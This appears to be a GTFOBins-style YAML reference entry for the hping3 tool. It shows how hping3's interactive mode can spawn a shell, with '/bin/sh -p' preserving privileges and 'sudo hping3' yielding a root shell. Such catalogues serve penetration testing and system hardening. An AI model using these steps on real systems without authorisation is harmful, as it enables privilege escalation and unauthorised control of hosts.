 ```yaml
---
functions:
  shell:
    - code: |
        hping3
        /bin/sh -p
  sudo:
    - code: |
        sudo hping3
        /bin/sh
---
```

